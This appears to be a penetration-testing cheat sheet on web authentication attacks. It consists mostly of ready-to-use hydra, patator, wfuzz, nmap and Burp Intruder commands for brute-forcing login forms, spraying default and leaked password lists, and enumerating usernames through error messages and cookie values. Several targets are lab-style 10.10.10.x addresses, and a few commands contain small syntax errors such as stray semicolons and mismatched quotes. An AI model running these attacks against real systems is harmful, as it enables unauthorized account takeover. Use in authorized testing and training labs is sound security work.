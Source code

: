 # Authentication Attacks

## Authentication Attacks



## HTTP Create User via POST

We can create a user with curl:

```text
curl -X POST -d 'username=testing123&password=test123&confirm=test123' http://victim/
```



### HTTP Basic Authentication

HTTP Basic Authentication with Hydra:

```text
hydra -C /opt/SecLists/Passwords/Default-Credentials/tomcat-betterdefaultpasslist.txt http-get://10.10.10.10:8080/manager/html
```

See the base64 value:

```bash
echo -n 'admin:admin' | base64
```

### Enumerating Usernames via Error Messages

We can enumerate usernames with error messages.

`Invalid User`

#### BurpSuite Intruder

Add a position in the value that you want to intrude/fuzz:

```text
Intruder -> Positions -> Sniper -> Add Position
```

Select a dictionary attack with:

```text
Intruder -> Payloads -> Payload set -> Payload type (Simple List | Dictionary Attack)
```

Load the dictionary with:

```text
Intruder -> Payloads -> Payload Options -> Load
```

Match the string 'Invalid User' from the HTTP response:

```text
Intruder -> Options -> Grep - Match -> Clear -> Add -> Invalid User
```

Follow redirections on the target only:

```text
Intruder -> Options -> Redirections -> Follow redirections -> In-scope only
```

Start the attack with:

```text
Intruder -> Payloads -> Start attack OR Intruder Start Menu -> Start attack
```

#### patator

We can view the help panel with:

```text
patator http_fuzz --help
```

A few examples of an HTTP authentication dictionary attack: \(Change the parameters and their values\)

```text
patator http_fuzz url=http://target/login.php method=POST body='username=FILE0&password=admin&Submit=Login' 0=usernames.txt -x ignore:fgrep='Invalid User'
patator http_fuzz url=http://target/login.php method=POST body='username=FILE0&password=admin&Submit=Login' 0=usernames.txt follow=1 -x ignore:fgrep='Invalid User'
patator http_fuzz url=http://target/login.php method=POST body='username=FILE0&password=admin&Submit=Login' 0=usernames.txt follow=1 accept_cookie=1 -x ignore:fgrep='Invalid User'
```

**wfuzz**

A few examples of an HTTP authentication dictionary attack: \(Change the parameters and their values\)

```text
wfuzz -c -w names.txt -d "username=FUZZ&password=password" http://10.10.10.10/login.php
```

### Enumerating Usernames via Cookie Values

We can enumerate usernames with cookie values.

#### BurpSuite Intruder

Add a position in the value that you want to intrude/fuzz:

```text
Intruder -> Positions -> Sniper -> Add Position
```

Select a dictionary attack with:

```text
Intruder -> Payloads -> Payload set -> Payload type (Simple List | Dictionary Attack) Intruder -> Payloads -> Payload Options -> Load
```

Match the response string of an invalid user cookie parameter:

```text
Intruder -> Options -> Grep - Match -> Clear -> Add -> wrong_user
```

Follow redirections on the target only

```text
Intruder -> Options -> Redirections -> Follow redirections -> In-scope only
```

Start the attack with:

```text
Intruder -> Payloads -> Start attack OR Intruder Start Menu -> Start attack
```

#### patator

We can do a username enumeration with: \(Change the parameters and their values\)

```text
patator http_fuzz url=http://target/login.php method=POST body='username=FILE0&password=admin&Submit=Login' 0=usernames.txt --x ignore:fgrep='wrong_user'
patator http_fuzz url=http://target/login.php method=POST body='username=FILE0&password=admin&Submit=Login' 0=usernames.txt follow=1 -x ignore:fgrep='wrong_user'
patator http_fuzz url=http://target/login.php method=POST body='username=FILE0&password=admin&Submit=Login' 0=usernames.txt follow=1 accept_cookie=1 -x ignore:fgrep='wrong_user'
```

### Password Enumeration

#### patator

We can do a password enumeration with: \(Change the parameters and their values\)

```text
patator http_fuzz url=http://target/login.php method=POST body='username=admin&password=FILE0&Submit=Login' 0=passwords.txt --x ignore:fgrep='Invalid Password'
```

## Brute Force in Login Forms

### nmap

```text
nmap -p 80 --script http-brute --script-args 'http-brute.hostname=domain_name,http-brute.method=POST,http-brute.path=/login,userdb=users.txt,passdb=passwords.txt' -v domain_name -n
```

### hydra

```text
hydra -l username -P <IP> http-post-form "/login_file.php:username_parameter=^USER^&password_parameter=^PASS^:error message"

hydra -l username; -P passlist.txt <IP> https-post-form "/directory/filname.php:password=^PASS^&remember=yes&login=Log+In&proc_login=true:Incorrect" -t 64

hydra -l admin -P /opt/SecLists/Passwords/10k_most_common.txt <IP> http-post-form "/dir/filename.php:username=^USER^&password=^PASS^:Invalid" -t 64
```

### wfuzz

```text
wfuzz -c -u http://<IP>/login.php -d 'username_param=FUZZ&password=FUZZ' -w <wordlist.txt> -hh 440

wfuzz --hh 1073 -c -u http://10.10.10.101/users/login.php -X POST -d "Username=admin&Password=FUZZ&Submit=Login" -w /opt/SecLists/Passwords/darkweb2017-top10000.txt

wfuzz -c -z wordlist1.txt wordlist2.txt -u http://<IP>/login.php -d 'username_param=FUZZ&password=FUZZ' -w <wordlist.txt> --hw 430

wfuzz --hw 36 -c -w /opt/SecLists/Passwords/darkweb2017-top1000.txt -d 'username=admin&password=FUZZ&submit=Login' http://10.10.10.86/login
```

#### wfuzz with cookie

```text
wfuzz -w cewl.out -d '<parameters>' -b '<cookie_value>' http://<IP>/login/index.php

wfuzz --hw 29 -c -w /opt/SecLists/Passwords/darkweb2017-top1000.txt -H 'Cookie: password=FUZZ' http://10.10.10.86:8080/ 

wfuzz --hc 200 -w cewl.out -d 'username=FUZZ&passwd=Curling2018!&otherparameters" -b <cookie> http://<ip>/administrator/index.php
```

#### wfuzz with proxy

```text
wfuzz -w cewl.out -d '<parameters>' -p 127.0.0.1:8080 http://<IP>/login/index.php
```

### patator

```text
patator http_fuzz url=http://10.10.10.108/zabbix/index.php method=POST body= 'name=zapper&password=FILE0&autologin=1&enter=Sign+in' 0=/usr/share/SecLists/Passwords/darkweb2017-top1000.txt accept\_cookie=1 follow=1 -x ignore:fgrep= 'Login name or password is incorrect.'
```



